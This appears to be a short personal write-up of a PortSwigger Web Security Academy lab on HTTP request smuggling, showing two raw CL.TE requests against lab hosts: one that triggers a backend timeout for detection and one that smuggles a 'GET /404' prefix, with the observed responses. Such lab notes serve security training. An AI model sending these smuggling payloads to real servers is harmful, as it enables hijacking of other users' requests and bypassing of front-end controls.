[Lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=WB_E6EybP_o&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=4&ab_channel=JarnoTimmermans)

# Detection
```
POST / HTTP/1.1
Host: 0a0c00d003cbc85280b84e12008d007e.web-security-academy.net
Content-Length: 7
Transfer-Encoding: chunked

1
A
X
```
Caused a timeout:

![](../../../Attachments/Req%20Smug/Backend%20Timeout%20first%20req.png)

# Usage of differential responses

![](../../../Attachments/Req%20Smug/Differential%20responses%20CL%20TE.png)

```HTTP
POST / HTTP/1.1
Host: 0aca00ab04595db587f25c6600150017.web-security-academy.net
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: x
```

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818174952.png)
Got **200 OK**
Immediately send a normal `GET /` request and got the **404 not found**
